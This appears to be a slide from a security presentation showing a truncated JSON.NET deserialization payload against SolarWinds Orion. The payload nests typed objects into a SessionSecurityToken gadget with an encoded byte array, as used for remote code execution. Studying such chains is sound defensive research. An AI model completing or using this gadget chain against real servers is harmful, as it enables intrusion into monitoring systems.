

# Building an object with a nested gadget – Final Payload
{
[... Truncated ...]
    "ActionContext": {
        "$type": "SolarWinds.Orion.Core.Models.Actions.Contexts.AlertingActionContext, SolarWinds.Orion.Actions.Models",
        "ExecutionMode": 0,
        "EnviromentType": 0,
        "EntityType": "Orion.NetPath.ServiceAssignments",
        "EntityUri": "swis://EX-MB02./Orion/Orion.NetPath.ServiceAssignments/ProbeID=1,EndpointServiceID=1",
        "EntityUris": null,
        "IsGlobalAlert": false,
        "AlertContext": {
            "$type": "SolarWinds.Orion.Core.Models.Actions.Contexts.AlertContext, SolarWinds.Orion.Actions.Models",
            "AlertName": "Path to Google",
            "CreatedBy": null
        },
        "AlertActiveId": null,
        "AlertObjectId": null,
        "NetObjectData": null,
        "ObjectDataExists": false,
        "MacroContext": {
            "$type": "SolarWinds.Orion.Core.Models.MacroParsing.MacroContext, SolarWinds.Orion.Core.Models.V1",
            "contexts": [
                {
                    "$type": "SolarWinds.Orion.Core.Models.MacroParsing.SwisEntityContext, SolarWinds.Orion.Core.Models.V1",
                    "EntityProperties": {
                        "$type": "SolarWinds.InformationService.Contract2.PropertyBag, SolarWinds.InformationService.Contract2",
                        "a": {
                            "$type": "System.IdentityModel.Tokens.SessionSecurityToken, System.IdentityModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
                            "SessionToken": {
                                "$type": "System.Byte[], mscorlib",
                                "$value": "QBRTZWN1cml0eUNvbnRleHRUb2tlbkAHVm..."
[... Truncated ...]
}